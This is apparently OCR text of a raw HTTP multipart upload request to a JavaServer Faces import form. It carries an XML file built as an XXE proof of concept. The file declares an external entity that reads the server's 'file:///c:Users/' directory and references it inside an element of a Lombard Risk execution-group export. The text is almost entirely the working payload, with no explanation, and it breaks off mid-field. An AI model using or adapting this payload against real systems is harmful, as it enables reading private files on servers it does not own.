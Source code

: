 name="javax.faces.partial.execute" importFileForm:importFileUpload-----------------------------22114693211599442001093007703Content-Disposition: form-data; name="javax.faces.source" importFileForm:importFileUpload-----------------------------22114693211599442001093007703Content-Disposition: form-data; name="javax.faces.partial.render" importFileForm:messages importFileForm:listuploadedFileName importFileForm:listimportBtn importFileForm:ImportInfoTable-----------------------------22114693211599442001093007703Content-Disposition: form-data; name="importFileForm:importFileUpload"; filename="ExecutionGroupExport\_18032022\_xml\_play01.xml"Content-Type: text/xml <?xml version="1.0" encoding="GBK" standalone="yes"?><!DOCTYPE foo [ <!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///c:Users/" >]><ExecutionGroupDto xmlns="http://www.lombardrisk.com/ocelot/executionGroup">    <configPrefix>MAS</configPrefix>    <item>        <name>Computeeeee &xxe; &amp; Retrieve R610</name>        <description>Compute &amp; Retrieve R610</description>        <content>{"configPrefix":"MAS","name":"Compute \u0026 Retrieve R610","description":"Compute \u0026 Retrieve